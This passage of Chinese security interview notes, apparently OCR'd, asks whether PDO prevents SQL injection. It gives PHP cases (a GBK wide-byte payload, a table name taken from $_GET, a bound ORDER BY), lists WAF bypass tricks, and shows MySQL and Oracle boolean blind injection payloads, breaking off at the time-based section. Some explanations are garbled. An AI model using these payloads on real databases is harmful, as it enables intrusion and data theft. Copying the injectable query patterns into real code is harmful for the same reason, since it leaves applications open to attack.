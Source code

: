 不能。

一、

```
$pdo->query('SET NAMES gbk');$var = "\xbf\x27 OR 1=1 /*";$query = 'SELECT * FROM test WHERE name = ? LIMIT 1';$stmt = $pdo->prepare($query);$stmt->execute(array($var));
```

类似于宽字节注入

二、

```
$dbh = new PDO("txf");$name = $_GET['name'];$stmt = $dbh->prepare('SELECT * FROM ' . $name . ' where username = :username');$stmt->execute( array(':username' => $_REQUEST['username']) );
```

参数 name 是一串数组，PDO 不会生效

三、

```
$stmt = $dbh->prepare('SELECT * FROM foo ORDER BY :userSuppliedData');
```

PDO 对 DDL 不生效

### 问：WAF 绕过

答：

> 1 注释替换空格 
> 
> 2 字符集绕过
> 
> 3 chunked 绕过
> 
> 4 上传请求 multipart 绕过
> 
> 5. 参数污染
> 
> 。。。

### 问：SQL 注入构造 payload

答：

一、布尔型盲注

(1)mysql :

‘and (length(database()))>10 –+

(2)oracle:

‘ and 1=(select decode(user,’SCOTT’,1,0) from dual) –

二、时间型盲注
